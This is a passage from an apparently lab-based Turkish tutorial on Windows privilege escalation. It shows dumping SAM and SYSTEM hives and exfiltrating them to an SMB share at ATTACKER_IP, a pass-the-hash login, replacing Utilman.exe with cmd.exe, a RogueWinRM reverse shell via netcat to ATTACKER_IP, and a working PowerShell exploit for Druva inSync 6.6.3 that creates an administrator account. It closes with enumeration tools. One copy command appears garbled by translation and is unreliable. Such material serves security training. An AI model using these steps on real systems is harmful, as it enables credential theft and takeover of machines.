    SeRestorePrivilege            Restore files and directories  Disabled
    SeShutdownPrivilege           Shut down the system           Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

SAM ve SYSTEM hash'lerini yedeklemek için aşağıdaki komutları kullanabiliriz:

    C:\> reg save hklm\system C:\Users\THMBeup\system.hive
    The operation completed successfully.
    C:\> reg save hklm\sam C:\Users\THMBeup\sam.hive
    The operation completed successfully.

Bu, kayıt defteri hive'larının içeriğini içeren birkaç dosya oluşturacaktır. Artık bu dosyaları SMB veya mevcut herhangi bir yöntemi kullanarak saldırgan makinemize kopyalayabiliriz. SMB için, Kali'mizin geçerli dizininde bir ağ paylaşımıyla basit bir SMB sunucusu başlatmak için impacket'in smbserver.py dosyasını kullanabiliriz:

    user@attackerpc$ mkdir share
    user@attackerpc$ python /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

Bu, mevcut Windows oturumumuzun kullanıcı adını ve şifresini gerektiren, share dizinine işaret eden public adında bir paylaşım yaratacaktır. Bundan sonra her iki dosyayı da Kali'mize aktarmak için Windows makinemizdeki copy komutunu kullanabiliriz:

    C:\> copy C:\Users\THMBeup\sam.hive \\ATTACKER_IP\public\
    C:\> copy C:\Users\THMBeup\system.hive \\ATTACKER_IP\public\

Ve kullanıcıların şifre hash'lerini almak için impacket'i kullanın:

    user@attackerpc$ python /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
    Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

    [*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Son olarak Administrator'un hash'ini kullanarak Pass-the-Hash saldırısı gerçekleştirebilir ve hedef makineye SYSTEM ayrıcalıklarıyla erişim sağlayabiliriz:

    user@attackerpc$ python /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 Administrator@MACHINE_IP
    Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

    [*] Requesting shares on 10.10.175.90.....
    [*] Found writable share ADMIN$
    [*] Uploading file nfhtabqO.exe
    [*] Opening SVCManager on 10.10.175.90.....
    [*] Creating service RoLE on 10.10.175.90.....
    [*] Starting service RoLE.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

### SeTakeOwnership

SeTakeOwnership yetkisi, bir kullanıcının, dosyalar ve kayıt defteri anahtarları da dahil olmak üzere sistemdeki herhangi bir nesnenin sahipliğini almasına olanak tanır ve bir saldırganın yetkileri yükseltmesi için birçok olasılığın önünü açar; örneğin, SYSTEM olarak çalışan bir servisi arayabiliriz ve executable dosyasının sahipliğini alıp bunu değiştirebiliriz. Ancak bu bölüm için farklı bir yol izleyeceğiz.

    C:\> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                              State
    ============================= ======================================== ========
    SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled

Yukarıda gördüğümüz gibi sızdığımız bir ana bilgisayarda SeTakeOwnershipPrivilege yetkisi mevcut. Yetki yükseltmek için utilman.exe'yi kötüye kullanacağız. Utilman, kilit ekranı sırasında Erişim Kolaylığı seçenekleri sağlamak için kullanılan yerleşik bir Windows uygulamasıdır:

Utilman SYSTEM yetkisiyle çalıştırıldığından, orijinal binary dosyayı istediğimiz herhangi bir payload için değiştirirsek etkili bir şekilde SYSTEM yetkilerini kazanacağız. Herhangi bir dosyanın sahipliğini alabildiğimiz için onu değiştirmek oldukça basit.

Utilman'ı değiştirmek için aşağıdaki komutla onun sahipliğini alarak başlayacağız:

    C:\> takeown /f C:\Windows\System32\Utilman.exe

    SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".

Bir dosyanın sahibi olmanın mutlaka o dosya üzerinde yetkilere sahip olduğunuz anlamına gelmediğine dikkat edin; ancak dosyanın sahibi olarak kendinize ihtiyacınız olan tüm ayrıcalıkları atayabilirsiniz. Kullanıcınıza utilman.exe üzerinde tam izin vermek için aşağıdaki komutu kullanabilirsiniz:
Komut istemi

C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
işlenen dosya: Utilman.exe
1 dosya başarıyla işlendi; 0 dosya işlenemedi

        

Bundan sonra utilman.exe'yi cmd.exe'nin bir kopyasıyla değiştireceğiz:
Komut istemi

C:\Windows\System32\> cmd.exe'yi kopyalayın utilman.exe
        1 dosya kopyalandı.

        

Utilman'ı tetiklemek için ekranımızı başlat düğmesinden kilitliyoruz.

Ve son olarak utilman.exe'yi SYSTEM ayrıcalıklarıyla çalıştıran "Erişim Kolaylığı" butonuna tıklayarak ilerleyin. Bunu cmd.exe kopyasıyla değiştirdiğimiz için SYSTEM ayrıcalıklarına sahip bir komut istemi alacağız:

### SeImpersonate / SeAssignPrimaryToken

Bu yetkiler, bir işlemin diğer kullanıcıların kimliğine bürünmesine ve onlar adına hareket etmesine olanak tanır. Kimliğe bürünme genellikle başka bir kullanıcının güvenlik bağlamı altında bir işlemin veya iş parçacığının oluşturulabilmesinden oluşur.

Bir FTP sunucusunun nasıl çalıştığını düşündüğünüzde kimliğe bürünme kolayca anlaşılır. FTP sunucusu, kullanıcıların yalnızca görmelerine izin verilmesi gereken dosyalara erişmesini kısıtlamalıdır.

ftp kullanıcısı ile çalışan bir FTP servisimiz olduğunu varsayalım. Kimliğe bürünme olmadan, Ann kullanıcısı FTP sunucusunda oturum açar ve dosyalarına erişmeye çalışırsa, FTP servisi bunlara Ann'inki yerine kendi erişim belirteciyle (access token) erişmeye çalışır:

ftp'nin belirtecini kullanmanın en iyi fikir olmamasının birkaç nedeni vardır: - Dosyaların doğru şekilde sunulması için, bunların ftp kullanıcısı tarafından erişilebilir olması gerekir. Yukarıdaki örnekte, Bill'in dosyalarındaki DACL, ftp isimli kullanıcıya izin vermediğinden, FTP servisi Ann'in dosyalarına erişebilir ancak Bill'in dosyalarına erişemez. Sunulan her dosya/dizin için belirli izinleri manuel olarak yapılandırmamız gerektiğinden bu, karmaşıklığı artırır. - İşletim sistemi için, FTP servisinde hangi kullanıcının oturum açtığından bağımsız olarak, tüm dosyalara ftp kullanıcısı tarafından erişilir. Bu, yetkilendirmenin işletim sistemine devredilmesini imkansız hale getirir; bu nedenle FTP hizmetinin bunu uygulaması gerekir. - FTP servisi bir noktada tehlikeye girerse, saldırgan, ftp kullanıcısının erişim sahibi olduğu tüm klasörlere anında erişim elde edecektir.

Öte yandan, FTP servisinin kullanıcısı SeImpersonate veya SeAssignPrimaryToken yetkisine sahipse, FTP servisi oturum açan kullanıcının erişim belirtecini geçici olarak alıp bunu kendi cihazlarında onun adına herhangi bir görevi gerçekleştirmek için kullanabileceğinden tüm bunlar biraz basitleştirilir.

Artık, Ann kullanıcısı FTP servisinde oturum açarsa ve ftp kullanıcısının kimliğe bürünme yetkilerine sahip olması durumunda, Ann'in erişim belirtecini ödünç alabilir ve dosyalarına erişmek için kullanabilir. Bu şekilde, dosyaların hiçbir şekilde ftp kullanıcısına erişim sağlamasına gerek kalmaz ve yetkilendirmeyi işletim sistemi gerçekleştirir. FTP servisi Ann'in kimliğine büründüğü için bu oturum sırasında Jude'un veya Bill'in dosyalarına erişemeyecektir.

Saldırganlar olarak, SeImpersonate veya SeAssignPrimaryToken yetkileriyle bir işlemin kontrolünü ele geçirmeyi başarırsak, o işleme bağlanan ve kimlik doğrulaması yapan herhangi bir kullanıcının kimliğine bürünebiliriz.

Windows sistemlerinde LOCAL SERVICE ve NETWORK SERVICE ACCOUNTS zaten bu tür yetkilere sahiptir. Bu hesaplar, kısıtlı hesapları kullanarak servis oluşturmak için kullanıldığından, servisin ihtiyaç duyması halinde bağlanan kullanıcıların kimliğine bürünmelerine izin vermek mantıklı olacaktır. Internet Information Services (IIS) de web uygulamaları için "iis apppool\defaultapppool" adı verilen benzer bir varsayılan hesap oluşturacaktır.

Bu tür hesapları kullanarak yetkileri yükseltmek için, saldırganın aşağıdakilere ihtiyacı vardır: 1. Kullanıcıların kimliğe bürünme gerçekleşmesi için bağlanabilmesi ve kimlik doğrulaması yapabilmesi amacıyla bir işlem oluşturmak. 2. Yetkili kullanıcıları, ortaya çıkan kötü amaçlı işlemeye bağlanmaya ve kimlik doğrulamaya zorlamanın bir yolu.

Her iki koşulu da gerçekleştirmek için RogueWinRM exploitini kullanacağız.

IIS üzerinde çalışan bir web sitesinin güvenliğini zaten ihlal ettiğimizi ve aşağıdaki adrese bir web shell yerleştirdiğimizi varsayarak başlayalım:

http://MACHINE_IP/

Güvenliği ihlal edilen hesaba atanmış yetkileri kontrol etmek için web shell'i kullanabiliriz ve bu görev için her iki yetkiye de sahip olduğumuzu doğrulayabiliriz:

RogueWinRM'i kullanmak için öncelikle exploit'i hedef makineye yüklememiz gerekiyor.

RogueWinRM'den yararlanma mümkündür çünkü bir kullanıcı (yetkisiz kullanıcılar dahil) Windows'ta BITS hizmetini başlattığında, SYSTEM yetkilerini kullanarak otomatik olarak 5985 numaralı port'a bağlantı oluşturur. Port 5985 genellikle WinRM hizmeti için kullanılır; bu, Powershell konsolunun ağ üzerinden uzaktan kullanılmasını sağlayan bir porttur. SSH gibi düşünün ama Powershell kullanıyor.

Herhangi bir nedenle WinRM servisi kurban sunucuda çalışmıyorsa, saldırgan 5985 numaralı portta sahte bir WinRM hizmeti başlatabilir ve başlarken BITS servisi tarafından yapılan kimlik doğrulama girişimini yakalayabilir. Saldırganın SeImpersonate yetkileri varsa, bağlanan kullanıcı yani SYSTEM adına herhangi bir komutu çalıştırabilir.

Exploiti çalıştırmadan önce, saldırganımızın makinesinde bir reverse shell almak için bir netcat dinleyicisi başlatıyoruz.

Ardından, aşağıdaki komutu kullanarak RogueWinRM exoloitini tetiklemek için web shell'imizi kullanalım:

    c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"

Not: Bu exploitin çalışması 2 dakika kadar sürebilir, dolayısıyla tarayıcınız bir süreliğine yanıt vermiyor gibi görünebilir. Bu durum, exploiti birden çok kez çalıştırdığınızda, yeniden başlatmadan önce BITS servisinin durmasını beklemesi gerektiğinden meydana gelir. BITS hizmeti, başlatıldıktan 2 dakika sonra otomatik olarak duracaktır.

-p parametresi, bu durumda nc64.exe olan, exploit tarafından çalıştırılacak yürütülebilir dosyayı belirtir. -a parametresi, yürütülebilir dosyaya argümanları iletmek için kullanılır. Nc64'ün saldırgan makinemize karşı reverse shell kurmasını istediğimiz için netcat'e iletilecek argümanlar -e cmd.exe ATTACKER_IP 4442 olacaktır.

Her şey doğru şekilde ayarlanmışsa, SYSTEM yetkilerine sahip bir kabuk beklemelisiniz:

    user@attackerpc$ nc -lvp 4442
    Listening on 0.0.0.0 4442
    Connection received on 10.10.175.90 49755
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    c:\windows\system32\inetsrv>whoami
    nt authority\system

## Zaafiyetli Yazılımlar

Hedef sisteme yüklenen yazılım, çeşitli yetki yükseltme fırsatları sunabilmektedir. Sürücülerde olduğu gibi, kuruluşlar ve kullanıcılar da bunları işletim sistemini güncelledikleri sıklıkta güncellemeyebilir. Hedef sistemde yüklü olan yazılımları ve sürümlerini listelemek için wmic aracını kullanabilirsiniz. Aşağıdaki komut, yüklü yazılımlara ait toplayabildiği bilgileri aktaracaktır (tamamlanması yaklaşık bir dakika sürebilir):

    wmic product get name,version,vendor

Wmic product komutunun yüklü tüm programları döndürmeyebileceğini unutmayın. Bazı programların nasıl kurulduğuna bağlı olarak burada listelenmeyebilirler. Her zaman masaüstü kısayollarını, mevcut hizmetleri veya genel olarak savunmasız olabilecek ek yazılımların varlığını gösteren herhangi bir izi kontrol edin.

Ürün sürümü bilgilerini topladıktan sonra, diğerlerinin yanı sıra, exploit-db, packet storm veya Google gibi sitelerde çevrimiçi olarak yüklü yazılımdaki mevcut açıkları her zaman arayabiliriz.

### Örnek: Druva inSync 6.6.3

Hedef sunucu, Matteo Malvica tarafından bildirilen yetki yükseltmeye karşı savunmasız olan Druva inSync 6.6.3'ü çalıştırıyor. Güvenlik açığı, başlangıçta Chris Lyne tarafından 6.5.0 sürümü için bildirilen başka bir güvenlik açığı üzerine uygulanan hatalı bir yamadan kaynaklanıyor.

Yazılım, yalnızca localhost'tan erişilebilen, SYSTEM yetkileriyle 6064 numaralı portta bir RPC (Remote Procedure Call) (Uzaktan Prosedür Çağrısı) sunucusu çalıştırdığı için güvenlik açığına sahiptir. RPC'ye aşina değilseniz, bu yalnızca belirli bir işlemin, diğer makinelerin bunları uzaktan çağırabilmesi için ağ üzerinden işlevleri (RPC dilinde prosedürler olarak adlandırılır) kullanıma sunmasına olanak tanıyan bir mekanizmadır.

Druva inSync durumunda, 6064 numaralı portta ortaya çıkan prosedürlerden biri (özellikle prosedür numarası 5), herkesin herhangi bir komutun yürütülmesini talep etmesine izin verdi. RPC sunucusu SYSTEM olarak çalıştığından, herhangi bir komut SYSTEM yetkileriyle yürütülür.

6.5.0 ve önceki sürümlerde bildirilen orijinal güvenlik açığı, herhangi bir komutun kısıtlama olmadan çalıştırılmasına izin veriyordu. Bu tür bir işlevsellik sağlamanın ardındaki orijinal fikir, herhangi bir komut yerine inSync ile sağlanan bazı belirli binary dosyaları uzaktan yürütmekti. Yine de bundan emin olmak için herhangi bir kontrol yapılmadı.

Yürütülen komutun izin verilen binary dosyaların olması gereken C:\ProgramData\Druva\inSync4\ stringi ile başladığını kontrol etmeye karar verdikleri bir yama yayınlandı. Ancak daha sonra bunun yetersiz olduğu ortaya çıktı, çünkü bu tür bir kontrolü atlamak için basitçe bir path traversal yapabilirsiniz. İzin verilen yolda olmayan C:\Windows\System32\cmd.exe dosyasını çalıştırmak istediğinizi varsayalım; sunucudan C:\ProgramData\Druva\inSync4\\..\\..\\..\Windows\System32\cmd.exe dosyasını çalıştırmasını isteyebilirsiniz ve bu, kontrolü başarıyla atlayacaktır.

Çalışan bir exploit oluşturmak için 6064 numaralı portla nasıl konuşacağımızı anlamamız gerekir. Şanslıyız ki, kullanılan protokol basittir ve gönderilecek paketler aşağıdaki şemada gösterilmektedir:

İlk paket, sabit bir string içeren basit bir merhaba paketidir. İkinci paket, 5 numaralı prosedürü yürütmek istediğimizi gösterir, çünkü bu, bizim için herhangi bir komutu yürütecek olan savunmasız prosedürdür. Son iki paket sırasıyla komutun uzunluğunu ve yürütülecek komut dizesini göndermek için kullanılır.

Bu açığı istismar edecek exploit kodu aşağıdadır ve Matteo Malvica tarafından yayımlanmıştır:

    $ErrorActionPreference = "Stop"

    $cmd = "net user pwnd /add"

    $s = New-Object System.Net.Sockets.Socket(
        [System.Net.Sockets.AddressFamily]::InterNetwork,
        [System.Net.Sockets.SocketType]::Stream,
        [System.Net.Sockets.ProtocolType]::Tcp
    )
    $s.Connect("127.0.0.1", 6064)

    $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
    $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
    $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
    $length = [System.BitConverter]::GetBytes($command.Length);

    $s.Send($header)
    $s.Send($rpcType)
    $s.Send($length)
    $s.Send($command)

Bir Powershell konsolunu açabilir ve exploiti doğrudan çalıştırmak için yapıştırabilirsiniz. $cmd değişkeninde belirtilen, exploitin varsayılan payloadının sistemde pwnd adında bir kullanıcı oluşturacağını ancak ona yönetici yetkisi atamayacağını unutmayın; bu nedenle muhtemelen payloadı daha kullanışlı bir şeyle değiştirmek isteyeceğiz. Bu bölüm için payloadı aşağıdaki komutu çalıştıracak şekilde değiştireceğiz:

    net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add

Bu, SimplePass123 parolasıyla pwnd isimli bir kullanıcı oluşturacak ve bunu yöneticilerin grubuna ekleyecektir. Eğer istismar başarılı olduysa, pwnd kullanıcısının mevcut olduğunu ve yöneticiler grubunun bir parçası olduğunu doğrulamak için aşağıdaki komutu çalıştırabilmeniz gerekir:

    PS C:\> net user pwnd
    User name                    pwnd
    Full Name
    Account active               Yes
    [...]

    Local Group Memberships      *Administrators       *Users
    Global Group memberships     *None

Son adım olarak, yönetici olarak bir komut istemi çalıştırabilirsiniz.Kimlik bilgileri istendiğinde pwnd hesabını kullanın.

## Otomatize Toollar

Sistem enumeration'unu önceki bölümlerde görülenlere benzer şekillerde yürütmek için çeşitli scriptler mevcuttur. Bu araçlar, enumeration işlem süresini kısaltabilir ve farklı potansiyel yetki yükseltme vektörlerini ortaya çıkarabilir. Ancak, otomatik araçların bazen yetki yükseltme işlemini kaçırabileceğini lütfen unutmayın.

### WinPEAS

WinPEAS, yetki yükseltme yollarını ortaya çıkarmak amacıyla hedef sistemi enumerate etmek için geliştirilmiş bir scripttir. WinPEAS hakkında daha fazla bilgi bulabilir ve önceden derlenmiş yürütülebilir dosyayı veya .bat scripti indirebilirsiniz. WinPEAS, önceki bölümlerde listelenenlere benzer komutları çalıştıracak ve çıktılarını yazdıracaktır. winPEAS'ın çıktısı uzun olabilir ve bazen okunması zor olabilir. Bu nedenle çıktıyı her zaman aşağıda gösterildiği gibi bir dosyaya yönlendirmek iyi bir uygulama olacaktır:

    winpeas.exe > output.txt

https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

### PrivescCheck

PrivescCheck, hedef sistemde yaygın yetki yükseltmeyi araştıran bir PowerShell scriptidir. WinPEAS'a bir alternatif sağlar.

Hatırlatma: PrivescCheck'i hedef sistemde çalıştırmak için yürütme politikası kısıtlamalarını atlamanız gerekebilir. Bunu başarmak için aşağıda gösterildiği gibi Set-ExecutionPolicy cmdlet'ini kullanabilirsiniz.
           
    PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
    PS C:\> . .\PrivescCheck.ps1
    PS C:\> Invoke-PrivescCheck

### WES-NG

Bazı exploit öneren scriptler (örn. winPEAS), bunları hedef sisteme yüklemenizi ve orada çalıştırmanızı gerektirir. Bu, virüsten koruma yazılımının bunları algılayıp silmesine neden olabilir. Gereksiz, dikkat çekebilecek gürültüler yapmamak için, kendi makinenizde çalışacak WES-NG'yi (örn. Kali)'de kullanmayı tercih edebilirsiniz.

Kurulduktan sonra ve kullanmadan önce, veritabanını güncellemek için wes.py --update komutunu yazın. Script, hedef sistemdeki yetkilerinizi yükseltmek için kullanabileceğiniz bir güvenlik açığına yol açabilecek eksik yamaları kontrol etmek için oluşturduğu veritabanına başvuracaktır.

Script'i kullanmak için hedef sistemde systeminfo komutunu çalıştırmanız gerekecektir. Çıktıyı, saldıran makinenize taşımanız gereken bir .txt dosyasına yönlendirmeyi unutmayın.

Bu yapıldıktan sonra wes.py aşağıdaki gibi çalıştırılabilir;

    user@kali$ wes.py systeminfo.txt

### Metasploit

Hedef sistemde zaten Meterpreter shell'iniz varsa multi/recon/local_exploit_suggester modülünü kullanarak hedef sistemi etkileyebilecek zafiyetleri listeleyebilir ve hedef sistemdeki yetkilerinizi yükseltmenize olanak sağlayabilirsiniz.

## Güzel Kaynaklar

https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/

https://github.com/gtworek/Priv2Admin

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation